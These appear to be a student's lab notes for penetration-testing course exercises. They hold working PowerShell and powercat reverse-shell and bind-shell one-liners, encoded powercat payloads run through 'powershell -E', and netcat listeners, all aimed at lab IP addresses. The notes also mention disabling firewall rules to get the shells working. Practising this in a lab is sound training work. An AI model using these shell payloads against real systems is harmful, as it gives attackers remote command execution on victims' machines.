### 4.3.8.1 Exercises
#### 1. Use PowerShell and powercat to create a reverse shell from your Windows system to your Kali machine.

- Powershell:
    - Windows:

      ```powershell
      powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
      ```

    - Linux:

      ```bash
      sudo nc -lnvp 443
      ```
    
    - Output
      

- powercat:

  - Windows:

    ```powershell
    . .\powercat.ps1
    powercat -c 192.168.116.219 -p 443 -e cmd.exe
    ```
    
  - Linux:
    
    ```bash
    sudo nc -lnvp 443
    ```
    
  - Output:
    

#### 2. Use PowerShell and powercat to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use powercat to connect to it locally?

There were two Firewall rules that explicitly blocked windows PowerShell, so I had to disable them for this to work.

- PowerShell

  - Windows:

    ```powershell
    powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
    ```

  - Linux: 

    ```bash
    nc -nv 192.168.216.10 443
    ```

  - Output:
    

- powercat

  - Windows:

    ```powershell
    . .\powercat.ps1
    powercat -l -p 4444 -e cmd.exe
    ```
    
  - Linux:
  
    ```bash
    nc -nv 192.168.216.10 4444
    ```
  
  - Output:
    
  
- Local connection (powercat)
  
  - Windows Bind Shell:
  
    ```powershell
    . .\powercat.ps1
    powercat -l -p 4444 -e cmd.exe -v
    ```
  
  - Windows Client Connection
  
    ```powershell
    . .\powercat.ps1
    powercat -c 127.0.0.1 -p 4444
    ```
  
  - Output:
    It took a LOT of ENTER presses to make things move along, but it worked.
    
  
    

#### 3. Use powercat to generate an encoded payload and then have it executed through powershell. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.

- Reverse Shell

  - Linux netcat listener:

    ```bash
    sudo nc -lvnp 443
    ```

  - Windows: Generate Encoded Payload

    ```powershell
    powercat -c 192.168.119.216 -p 443 -e cmd.exe -ge
    ```

    

  - Windows: Execute Payload

    ```powershell
    powershell -E <PAYLOAD>
    ```

    

  - Output:
    

- Bind Shell

  - Windows: Generate Encoded Payload
  
    ```powershell
    powercat -l -p 443 -e cmd.exe -ge
    ```
  
    
  
  - Execute Payload
  
    ```powershell
    powershell -E <PAYLOAD>
    ```
  
    
  
  - Linux Connection:
  
    ```bash
    nc -nv 192.168.216.10
    ```
    
    
